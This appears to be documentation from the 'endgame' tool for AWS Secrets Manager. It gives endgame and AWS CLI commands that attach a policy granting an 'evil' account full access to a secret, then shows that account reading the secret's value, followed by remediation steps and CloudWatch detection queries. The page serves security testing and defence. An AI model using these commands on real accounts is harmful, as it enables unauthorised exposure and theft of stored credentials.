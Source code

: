 # Secrets Manager

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* **Option 1**: To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service secretsmanager --name test-resource-exposure
```

* **Option 2**: To expose the resource using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure
export EVIL_POLICY='{"Version": "2012-10-17", "Statement": [{"Sid": "AllowCurrentAccount", "Effect": "Allow", "Principal": {"AWS": "arn:aws:iam::999988887777:user/evil"}, "Action": "secretsmanager:*", "Resource": ["arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"]}]}'

aws secretsmanager put-resource-policy --secret-id --resource-policy $EVIL_POLICY
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws secretsmanager get-resource-policy --secret-id test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "secretsmanager:*",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"
      ]
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command in the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure

aws secretsmanager get-secret-value --secret-id $VICTIM_RESOURCE 
```

* Observe that the output resembles the following:

```json
{
  "ARN": "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure",
  "Name": "test-resource-exposure",
  "VersionId": "DOGECOIN",
  "SecretString": "{\n  \"username\":\"doge\",\n  \"password\":\"coin\"\n}\n",
  "VersionStages": [
    "AWSCURRENT"
  ],
  "CreatedDate": 1523477145.713
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that Secrets Manager secrets are only shared with trusted accounts, and that the trusted accounts truly need access to the secret.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Secrets Manager secrets. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-secrets-manager) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Secrets**: Tightly control access to the following IAM actions:
  - [secretsmanager:PutResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_PutResourcePolicy.html): _Enables the user to attach a resource policy to a secret._
  - [secretsmanager:GetSecretValue](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html): _Enables the user to retrieve and decrypt the encrypted data._
  - [secretsmanager:DeleteResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_DeleteResourcePolicy.html): _Enables the user to delete the resource policy attached to a secret._
  - [secretsmanager:GetResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetResourcePolicy.html): _Enables the user to get the resource policy attached to a secret._
  - [secretsmanager:ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html): _Enables the user to list the available secrets._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' or eventName='DeleteResourcePolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' and requestParameters.resourcePolicy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws secretsmanager get-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-resource-policy.html)
* [aws secretsmanager get-secret-value](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html)
* [aws secretsmanager put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/put-resource-policy.html)
